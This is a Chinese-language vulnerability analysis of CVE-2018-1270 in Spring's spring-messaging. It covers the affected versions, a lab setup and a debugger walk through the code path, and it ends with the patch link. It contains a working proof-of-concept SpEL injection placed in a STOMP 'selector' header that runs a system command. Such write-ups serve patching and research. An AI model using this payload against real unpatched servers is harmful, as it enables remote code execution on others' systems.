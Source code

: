 ```yaml
---
title: CVE-2018-1270 spring-messaging Remote Code Execution 分析
date: 2018-04-11 11:07:18
tags: [vul,sec,spring]
categories: Security
---
```


#### 0x01 概述
[CVE-2018-1270: Remote Code Execution with spring-messaging](https://pivotal.io/security/cve-2018-1270)

#### 0x02 影响版本
- Spring Framework 5.0 to 5.0.4
- Spring Framework 4.3 to 4.3.15
- Older unsupported versions are also affected

#### 0x03 环境搭建
```
git clone https://github.com/spring-guides/gs-messaging-stomp-websocket
git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3
```

#### 0x04 漏洞利用
在app.js中增加一个header头
```js
function connect() {
    var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
    var socket = new SockJS('/gs-guide-websocket');
    stompClient = Stomp.over(socket);
    stompClient.connect({}, function (frame) {
        setConnected(true);
        console.log('Connected: ' + frame);
        stompClient.subscribe('/topic/greetings', function (greeting) {
            showGreeting(JSON.parse(greeting.body).content);
        }, header);
    });
}
```
spring-boot:run运行，connect建立连接后，点击发送触发漏洞

![clac](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/kVdWA)


#### 0x05 漏洞分析
在点击发送消息后，spring-message会对消息头部进行处理，相关方法在`org/springframework/messaging/simp/broker/DefaultSubscriptionRegistry.java`
`addSubscriptionInternal()`

![selector](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/tvQk8)
通过`sessionId`和`subsId`确定一个`selector`属性，后续服务端就通过这个`subsId`来查找特定会话，也就是从`headers`头部信息查找`selector`，由`selector`的值作为expression被执行

点击Send后，`org/springframework/messaging/simp/broker/SimpleBrokerMessageHandler.java`接收到message，message的headers头部信息包含了selector的属性，message传进`this.subscriptionRegistry.findSubscriptions`，由`findSubscriptions()`进行处理

![sendMessageToSubscribers](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/NUWfs)

跟进相关方法
`org/springframework/messaging/simp/broker/DefaultSubscriptionRegistry.java`

```java
@Override
protected MultiValueMap<String, String> findSubscriptionsInternal(String destination, Message<?> message) {
	MultiValueMap<String, String> result = this.destinationCache.getSubscriptions(destination, message);
	return filterSubscriptions(result, message);
}
```
result的值作为`filterSubscriptions()`的`allMatches`参数传入，遍历出`sessionId`和`subsId`，此时的result为

![result](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1AvIp)
跟进`filterSubscriptions()`

经过两层for循环，id为`sub-0`的subscription被赋值给`sub`(P.S. 此图是后来补的，故sessionId不一样)

![for](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/wHSXE)
![sub](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/QY3Ep)
通过`sub.getSelectorExpression()`得到`expression`的值，此时的`expression`就包含着我们发送的表达式

![expression](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/zwRxS)

再往下，执行到`expression.getValue()`，SpEL得到执行，触发poc

![calc](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/vJ027)


#### 0x06 补丁
https://github.com/spring-projects/spring-framework/commit/e0de9126ed8cf25cf141d3e66420da94e350708a#diff-ca84ec52e20ebb2a3732c6c15f37d37a

#### 0x07 参考
- https://chybeta.github.io/2018/04/07/spring-messaging-Remote-Code-Execution-%E5%88%86%E6%9E%90-%E3%80%90CVE-2018-1270%E3%80%91/
- http://blog.nsfocus.net/spring-messaging-analysis/
- https://www.anquanke.com/post/id/104140




